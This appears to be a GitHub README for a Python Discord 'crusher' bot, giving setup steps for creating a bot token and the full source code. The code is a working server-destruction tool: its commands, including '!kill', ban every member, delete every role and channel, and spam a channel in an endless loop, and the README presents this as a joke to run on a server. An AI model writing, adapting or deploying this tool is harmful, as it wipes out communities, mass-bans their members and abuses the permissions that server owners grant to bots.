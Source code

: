 # Discord-Cracher-Python

The most common discord crusher, with basic functions
_____

## How to install and start up:

## Paste into the command line ( pip install discord.py )


![image](https://user-images.githubusercontent.com/69690887/176690106-a3ec703b-2aa5-4e50-b9b0-d75fe528604f.png)


## Run bat file

![image](https://user-images.githubusercontent.com/69690887/176689847-cb035873-c28c-4cb1-ab36-51d85ec5027c.png)


## Where to get a token? I'll prompt!

![image](https://user-images.githubusercontent.com/69690887/176691667-5bdfcd49-489c-46c0-b181-6fb5c2ff5cf8.png)

https://discord.com/developers/applications

![image](https://user-images.githubusercontent.com/69690887/176691990-1e637561-ffeb-43f3-aa26-c8627afe8c13.png)



## After creating the bot, we proceed to receive the token

![image](https://user-images.githubusercontent.com/69690887/176692106-e6cc6c5e-4b3f-4f71-a263-e0d38fb21477.png)


![image](https://user-images.githubusercontent.com/69690887/176693180-f2fccd7b-a238-4190-99dd-ab9a4677cd0a.png)


_____

##And here is your token!

![image](https://user-images.githubusercontent.com/69690887/176693544-635e68f0-d078-4a73-b669-f3042c05ffe1.png)

##Next, you paste your token into this text file

![image](https://user-images.githubusercontent.com/69690887/176693984-efbec881-1e2e-467f-bcc9-1b3eb0516821.png)

##Bot setup:

![image](https://user-images.githubusercontent.com/69690887/176694888-7c66a41d-2c15-476d-896f-ad505d94a200.png)

![image](https://user-images.githubusercontent.com/69690887/176695283-3fa9600e-3f78-4177-a9bd-f8f3035e9368.png)

![image](https://user-images.githubusercontent.com/69690887/176695441-d9c65506-7dc0-4fc8-b236-271da6991d2e.png)

## Then you add the bot to the server, write to any text chat on the server, for example:
#### !!!kill
## And your joke worked


```
import discord
from discord.ext import commands
import asyncio

client = discord.Client() 

client = commands.Bot(command_prefix = '!') 

@client.event
async def on_ready():
    print('Bot enabled')


@client.command()
async def up(ctx):
    await ctx.message.delete()
    for m in ctx.guild.members:
        try:
            await m.ban()
        except:
            pass

@client.command()
async def up1(ctx):
    await ctx.message.delete()
    for m in ctx.guild.roles:
        try:
            await m.delete()
        except:
            pass

@client.command()
async def up2(ctx): 
    await ctx.message.delete()
    failed = []
    counter = 0
    for channel in ctx.guild.channels:
        try:
            await channel.delete()
        except: failed.append(channel.name)
        else: counter += 1
    fmt = ", ".join(failed)

@client.command()
async def upx(ctx, arg): 
    await ctx.message.delete()

    i = 1
    while i == 1:
        await ctx.send(arg)

@client.command()
async def kill(ctx): 
    await ctx.message.delete()
    for m in ctx.guild.roles:
        try:
            await m.delete()
        except:
            pass
   
    for m in ctx.guild.members:
        try:
            await m.ban()
        except:
            pass

    failed = []
    counter = 0
    for channel in ctx.guild.channels:
        try:
            await channel.delete()
        except: failed.append(channel.name)
        else: counter += 1
    fmt = ", ".join(failed)




token = open('token.txt', 'r').readline()

client.run(token) 

```
